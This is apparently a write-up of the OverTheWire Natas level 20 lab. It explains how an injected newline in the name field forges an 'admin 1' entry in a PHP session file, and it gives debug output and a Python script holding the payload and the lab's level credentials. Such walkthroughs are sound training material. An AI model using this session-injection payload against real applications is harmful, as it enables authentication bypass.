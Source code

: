 After reading the source code, it seems like there are 3 functions of interest - `print_credentials`, `myread `and `mywrite `. In `print_credentials`, it shows that to retrieve the password, the key has to be `admin` and the value has to be `1`.

As I couldn't understand the code well, I decided to use the debug function - by adding a `?debug=true` at the end of the url - to help me understand what the code was trying to do.

I tried changing the name to `admin` and this was the output. It seems that the key-value pair that was written to the server is `name:admin`.

```
DEBUG: MYREAD 4sstbfskg8g9f8juahuug37q16
DEBUG: Session file doesn't exist

DEBUG: MYWRITE 4sstbfskg8g9f8juahuug37q16 name|s:5:"admin";
DEBUG: Saving in /var/lib/php5/sessions//mysess_4sstbfskg8g9f8juahuug37q16
DEBUG: name => admin
```

Then I refreshed the page again. As expected, the key-value pair that was read from the server is `name:admin`.

```
DEBUG: MYREAD birvjcqbip0p0qvnkottdd2p43
DEBUG: Reading from /var/lib/php5/sessions//mysess_birvjcqbip0p0qvnkottdd2p43
DEBUG: Read [name admin]
DEBUG: Read []

DEBUG: MYWRITE birvjcqbip0p0qvnkottdd2p43 name|s:5:"admin";
DEBUG: Saving in /var/lib/php5/sessions//mysess_birvjcqbip0p0qvnkottdd2p43
DEBUG: name => admin
```

By reading the debug output and trying to link it to the source code, I figured out that the `mywrite` function writes the key-value pair of the session id in to the file system which will be read later by `myread` in an array delimited by `\n`.

In this challenge, we need to make the key-value pair `admin:1` but it seems impossible because the key would always be `name:something`. Then I wondered, is there a way to make the server store the data like this by using a newline character?

```
name:admin
admin:1
```

Here's the python script to do so.

```
import requests

username = "natas20"
password = "eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/?debug=true".format(username)

response = session.post(
    url, data={"name": "admin\nadmin 1"}, auth=(username, password))
content = response.text
print(content)

print("\n\n")

response = session.get(url, auth=(username, password))
content = response.text
print(content)
```
